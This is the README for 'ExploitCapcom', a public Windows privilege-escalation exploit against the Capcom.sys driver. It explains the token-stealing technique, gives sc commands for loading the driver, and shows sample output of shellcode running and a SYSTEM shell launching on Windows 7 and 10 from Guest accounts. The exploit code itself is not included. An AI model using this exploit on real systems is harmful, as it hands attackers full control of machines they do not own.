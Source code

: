 ExploitCapcom
==============

Description
------------

This is a standalone exploit for a vulnerable feature in Capcom.sys. The feature is exposed through IOCTL and to execute an arbitrary user supplied function pointer with disabling SMEP. This exploit simply abuses the feature to perform token stealing to get the SYSTEM privileges, and then launches the command prompt with the elevated privilege.

For more details, see:
- https://github.com/rapid7/metasploit-framework/pull/7363


Usage
------

Load the Capcom.sys first, then execute this exploit.

    >sc create Capcom type= kernel binPath= C:\Users\user\Desktop\Capcom.sys
    >sc start Capcom

    >ExploitCapcom.exe
    [*] Capcom.sys exploit
    [*] Capcom.sys handle was obtained as 0000000000000070
    [*] Shellcode was placed at 00000288427B0008
    [+] Shellcode was executed
    [+] Token stealing was successful
    [+] The SYSTEM shell was launched
    [*] Press any key to exit this program

You will see a new console running with the SYSTEM privileges.

![win10_demo](/img/win10_demo.png)

Tested Platforms
-----------------
- Capcom.sys (SHA1: c1d5cf8c43e7679b782630e93f5e6420ca1749a7)
- Windows 7 (x64) SP1 with the Guest privileges
- Windows 10 (x64) Build 14393 with the Guest privileges

License
--------
This software is released under the MIT License, see LICENSE.
